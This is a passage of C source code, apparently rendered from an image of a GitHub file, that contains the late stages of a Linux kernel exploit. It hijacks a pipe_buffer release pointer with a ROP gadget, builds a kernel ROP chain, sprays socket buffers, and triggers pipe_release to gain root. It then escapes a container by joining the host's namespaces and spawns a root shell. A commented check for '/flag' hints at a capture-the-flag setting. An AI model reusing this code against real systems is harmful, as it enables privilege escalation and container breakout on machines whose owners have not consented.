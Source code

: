 ```c
  ops = (struct pipe_buf_operations *)&secondary_buf[0x290];

  // RSI points to &buf.
  ops->release = kbase_addr + PUSH_RSI_JMP_QWORD_PTR_RSI_39;                  // 
// 4-2. construct ROP chain
  build_krop(secondary_buf, kbase_addr, kheap_addr + 0x2B0);
  if (spray_skbuff(ss, secondary_buf, sizeof(secondary_buf)) < 0)
    goto err_rmid;
// 4-3. trigger pipe_release()
  printf("[*] Releasing pipe_buffer objects...\n");
  for (int i = 0; i < NUM_PIPEFDS; i++) {
    if (close(pipefd[i][0]) < 0) {
      perror("[-] close");
      goto err_rmid;
    }
    if (close(pipefd[i][1]) < 0) {
      perror("[-] close");
      goto err_rmid;
    }
  }
// 4-4. get root
  printf("[*] Checking for root...\n");
  // if ((fd = open("/flag", O_RDONLY)) < 0) {                 // /etc/shadow
  //   printf("[-] Error could not gain root privileges.\n");
  //   goto err_rmid;
  // }
  // close(fd);
  printf("[+] Root privileges gained.\n");

  printf("\n");
  printf("[+] STAGE 5: Post-exploitation\n");

  printf("[*] Escaping container...\n");
  setns(open("/proc/1/ns/mnt", O_RDONLY), 0);
  setns(open("/proc/1/ns/pid", O_RDONLY), 0);
  setns(open("/proc/1/ns/net", O_RDONLY), 0);

  printf("[*] Cleaning up...\n");
  for (int i = 0; i < NUM_MSQIDS; i++) {
    // TODO: Fix next pointer.
    if (i == fake_idx)
      continue;
    if (msgctl(msqid[i], IPC_RMID, NULL) < 0)
      perror("[-] msgctl");
  }
  for (int i = 0; i < NUM_SOCKETS; i++) {
    if (close(ss[i][0]) < 0)
      perror("[-] close");
    if (close(ss[i][1]) < 0)
      perror("[-] close");
  }
  if (close(s) < 0)
    perror("[-] close");

  printf("[*] Popping root shell...\n");
  system("/bin/sh");                                          // char *args[] = {"/bin/bash", "-i", NULL};     execve(args[0], args, NULL);

  return 0;

err_rmid:
  for (int i = 0; i < NUM_MSQIDS; i++) {
    if (i == fake_idx)
```